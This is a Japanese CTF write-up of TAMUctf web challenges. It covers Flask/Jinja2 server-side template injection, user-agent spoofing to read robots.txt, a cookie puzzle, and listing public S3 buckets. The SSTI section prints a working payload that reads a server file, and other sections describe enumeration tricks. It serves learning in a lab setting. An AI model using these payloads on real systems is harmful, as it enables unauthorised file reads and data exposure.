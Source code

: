 # Science

```
http://web3.tamuctf.com

Difficulty: medium
```

* アプリケーションサーバがFlask、テンプレートエンジンがjinja2で構成されているWebページの脆弱性をつく。
* テキストボックスに文字を入れてボタンを押すと、次のページでその文字列が表示される。
* 文字列のサニタイジングが効いていないようで、{{config}}を打つと、いろいろな情報が出てくる。

```
<Config {'JSON_AS_ASCII': True
 'O_DSYNC': 4096
 'O_RSYNC': 1052672
 'EX_IOERR': 74
 'EX_NOHOST': 68
 'O_RDONLY': 0
 'ST_SYNCHRONOUS': 16
 'SESSION_REFRESH_EACH_REQUEST': True
 'EX_TEMPFAIL': 75
 'WCOREDUMP': <built-in function WCOREDUMP>
 'SEEK_CUR': 1
 'O_LARGEFILE': 0
 'ST_RELATIME': 4096
 'SECERT_KEY': 'super-secret'
 'O_EXCL': 128
 'O_TRUNC': 512
 'EX_OSFILE': 72
 'WIFEXITED': <built-in function WIFEXITED>
 'ST_MANDLOCK': 64
 'ST_NODIRATIME': 2048
 'F_OK': 0
 'WFT_CSRF_ENABLED': True
 'ST_RDONLY': 1
 'EX_NOINPUT': 66
 'O_NOFOLLOW': 131072
 'ST_NOSUID': 2
 'O_CREAT': 64
 'O_SYNC': 1052672
 'EX_NOPERM': 77
 'O_WRONLY': 1
 'SESSION_COOKIE_DOMAIN': None
 'SESSION_COOKIE_NAME': 'session'
 'WNOHANG': 1
 'LOGGER_HANDLER_POLICY': 'always'
 'O_NOATIME': 262144
 'TMP_MAX': 238328
 'MAX_CONTENT_LENGTH': None
 'ST_WRITE': 128
 'WTERMSIG': <built-in function WTERMSIG>
 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31)
 'P_NOWAITO': 1
 'R_OK': 4
 'TRAP_HTTP_EXCEPTIONS': False
 'WUNTRACED': 2
 'PRESERVE_CONTEXT_ON_EXCEPTION': None
 'EX_OSERR': 71
 'EX_DATAERR': 65
 'ST_APPEND': 256
 'SESSION_COOKIE_PATH': None
 'ST_NOATIME': 1024
 'W_OK': 2
 'EX_OK': 0
 'O_APPEND': 1024
 'EX_CANTCREAT': 73
 'O_NOCTTY': 256
 'LOGGER_NAME': 'tamuctf'
 'O_NONBLOCK': 2048
 'SECRET_KEY': None
 'EX_UNAVAILABLE': 69
 'EX_CONFIG': 78
 'P_NOWAIT': 1
 'APPLICATION_ROOT': None
 'SERVER_NAME': None
 'PREFERRED_URL_SCHEME': 'http'
 'ST_NODEV': 4
 'TESTING': False
 'TEMPLATES_AUTO_RELOAD': None
 'JSONIFY_MIMETYPE': 'application/json'
 'WEXITSTATUS': <built-in function WEXITSTATUS>
 'NGROUPS_MAX': 65536
 'WIFCONTINUED': <built-in function WIFCONTINUED>
 'O_RDWR': 2
 'P_WAIT': 0
 'O_NDELAY': 2048
 'USE_X_SENDFILE': False
 'EX_NOUSER': 67
 'SEEK_SET': 0
 'SESSION_COOKIE_SECURE': False
 'O_DIRECT': 16384
 'EX_SOFTWARE': 70
 'WSTOPSIG': <built-in function WSTOPSIG>
 'WIFSIGNALED': <built-in function WIFSIGNALED>
 'DEBUG': False
 'O_ASYNC': 8192
 'EXPLAIN_TEMPLATE_LOADING': False
 'O_DIRECTORY': 65536
 'WCONTINUED': 8
 'SEEK_END': 2
 'ST_NOEXEC': 8
 'JSONIFY_PRETTYPRINT_REGULAR': True
 'PROPAGATE_EXCEPTIONS': None
 'TRAP_BAD_REQUEST_ERRORS': False
 'JSON_SORT_KEYS': True
 'WIFSTOPPED': <built-in function WIFSTOPPED>
 'SESSION_COOKIE_HTTPONLY': True
 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0
 43200)
 'EX_PROTOCOL': 76
 'EX_USAGE': 64
 'X_OK': 1}>
```

* Flaskに対する攻撃は[このページ](https://qiita.com/koki-sato/items/6ff94197cf96d50b5d8f)に載っていた。

* これをもとに、[このコード](https://github.com/nannany/python/blob/master/src/ctf/tamu2019/flask_session.py)でcookieにsessionがキーで、 { 'username': 'admin' }がバリューに入れてアクセスしてみる。→ダメ。

* SSTI（サーバーサイドテンプレートインジェクション）と呼ばれる脆弱性のようだ。

* `{{''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()}}`という文字列を与えてやるとフラグが得られる。
  * `''.__class__`で空文字の型が得られる。→str
  * mroはMethod Resolution Order（メソッド解決順序）とよばれるもので、`__mro__`の中にはobject型が入っている
  * `__subclasses()`メソッドでobjectのサブクラスが全取得できる。その中の41番目はfile型
  * fileの引数にフラグファイルをとってやり、読み込むとフラグが出てくる。

## 得られた学び

* pythonの知識
* SSTIについて。(ここが参考になりそう)[https://www.we45.com/blog/server-side-template-injection-a-crash-course-]

# Robots Rule

```
http://web5.tamuctf.com

Difficulty: easy
```

* `http://web5.tamuctf.com/robots.txt`にアクセスすると以下のように出る。

```
User-agent: *

WHAT IS UP, MY FELLOW HUMAN! HAVE YOU RECEIVED SECRET INFORMATION ON THE DASTARDLY GOOGLE ROBOTS?! YOU CAN TELL ME, A FELLOW NOT-A-ROBOT!
```

* User-agentをGooglebotにしてやって、`http://web5.tamuctf.com/robots.txt`にアクセスするとフラグが表示される。

## 得られた学び

* fiddlerの使い方。
  * 起動させると勝手に8888ポートでプロキシとして作動する。
  * F11をおすと、通信にブレークポイントはれるようになる。
  * Shift-F11でブレークポイント解除できる。
* robots.txtの役割
  * 検索エンジンのクローラへのアクセス制限をかけるためのファイル。
  * だいたい、User-Agentで判断してアクセスを拒否するか許可するかきめる。

# Many Gig'ems to you!

```
http://web7.tamuctf.com
```

* クッキーがいっぱい出てくるページに行くと、JS経由でクッキーが4つブラウザに保存される
* それぞれのページのaltに含まれている値と、cookieのキーの値で、重複がないものを集めて類推するとフラグが導かれる。

## 得られた学び

* あんまりないな

# Buckets

```
Checkout my s3 bucket website!
http://tamuctf.s3-website-us-west-2.amazonaws.com/

Difficulty: easy
```

* htmlソース内に他のWebページのURLが貼ってある。
`http://ctfdevbucket.s3-website.us-east-2.amazonaws.com`

* S3の一覧が`http://tamuctf.s3.amazonaws.com/`で得られる。そこからたどっていけばフラグが得られる。

## 得られた学び

* S3配下にあるファイルのリストは、
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
のいずれかにある模様。


# Login App
